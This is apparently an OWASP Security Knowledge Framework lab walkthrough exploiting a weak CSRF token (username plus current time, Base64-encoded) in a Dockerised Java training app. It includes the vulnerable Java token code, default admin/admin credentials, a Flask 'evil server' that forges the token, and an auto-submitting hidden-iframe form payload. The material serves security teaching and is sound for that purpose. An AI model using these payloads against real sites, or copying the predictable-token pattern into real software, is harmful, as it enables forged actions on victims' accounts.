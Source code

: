 # CSRF - Weak

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-csrf-weak
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-csrf-weak
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CSRF-Weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CSRF-Weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CSRF-Weak/3.png)

Also we can see that the application is using a csrf_token

```html
<form method="post" action="/update">
  <input
    type="hidden"
    class="form-control"
    name="csrf_token"
    th:value="${csrfToken}"
  /><br />
  <input
    type="text"
    class="form-control"
    name="color"
    placeholder="favorite color"
  /><br />
  <button class="btn btn-primary" type="submit">Submit Button</button>
</form>
```

Looks like it's Base64 encoded, try decode it.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CSRF-Weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```java
public String newCsrfToken(HttpServletRequest request){
        String csrfToken =  request.getSession().getAttribute("username") + String.valueOf(LocalDateTime.now().getHour()) +":"+ String.valueOf(LocalDateTime.now().getMinute());
        csrfToken = Base64.getEncoder().encodeToString(csrfToken.getBytes());
        request.getSession().setAttribute("csrfToken",csrfToken);
        return csrfToken;
      }
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following express application:

```python
import base64
from time import localtime, strftime
from flask import Flask, request, url_for, render_template, redirect, make_response

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    time = strftime("%H:%M", localtime())
    csrf = "admin" + time
    csrf_raw = base64.b64encode(csrf.encode())
    csrf_token = str(csrf_raw, 'utf-8')
    return render_template("evil.html", csrf_token = csrf_token)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.

```text
$ pip3 install flask
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="color" value="Hackzord!" />
  <input
    type="hidden"
    name="csrf_token"
    value="{% autoescape true %}{{csrf_token}}{% endautoescape %}"
  />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python3 evil_server.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CSRF-Weak/5.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CSRF-Weak/6.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}
